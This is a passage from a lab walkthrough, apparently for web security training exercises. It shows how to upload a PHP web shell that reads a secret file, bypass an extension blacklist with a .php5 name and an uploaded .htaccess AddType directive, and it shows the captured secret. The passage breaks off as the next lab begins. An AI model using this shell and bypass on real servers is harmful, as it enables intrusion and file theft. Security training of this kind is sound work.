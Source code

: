 4. #### **Web shell upload via extension blacklist bypass**

    - Upload an image and take note of the URL flow and the parameters sent, the message  
    ***The file avatars/1.png has been uploaded.*** will appear.

    ```plaintext
    https://<lab_url>/my-account/avatar         POST
        -----------------------------123456789012345678901234567890
        Content-Disposition: form-data; name="avatar"; filename="1.png"
        Content-Type: image/png

        PNG
        ...
    ...
    https://<lab_url>/files/avatars/1.png       GET
    ...
    ```

    - Try to upload the shell, the message  
    ***Sorry, php files are not allowed. Sorry, there was an error uploading your file.*** will appear.

    ```plaintext
    https://<lab_url>/my-account/avatar         POST
        -----------------------------123456789012345678901234567890
        Content-Disposition: form-data; name="avatar"; filename="shell.php"
        Content-Type: application/x-php

        <?php echo file_get_contents("/home/carlos/secret"); ?>
        ...
    ...
    ```

    - Send the second **/my-account/avatar POST** request to the **Repeater**.
    - Set the **filename** to **shell.php5** (**alternative php filetype**) and repeat the request, the message
    ***The file avatars/shell.php5 has been uploaded.*** will appear.
    - Access the file and note the shell isn't executed  
    (notice that the code is returned as plain text).

    - Craft and upload a **.htaccess** file to override the server directives.

    ```plaintext
    AddType application/x-httpd-php .php5 .shtml
    ```

    - Access the file again and note the shell is now executed.

    ```plaintext
    wLt1ARkOcqaK1IFlyxGmIqyeMzT8Cuy0
    ```

5. #### **Web shell upload via obfuscated file extension**

    - Upload an image and take note of the URL flow and the parameters sent, the message  
    ***The file avatars/1.png has been uploaded.*** will appear.

    ```plaintext
    https://<lab_url>/my-account/avatar         POST
        -----------------------------123456789012345678901234567890
        Content-Disposition: form-data; name="avatar"; filename="1.png"
        Content-Type: image/png
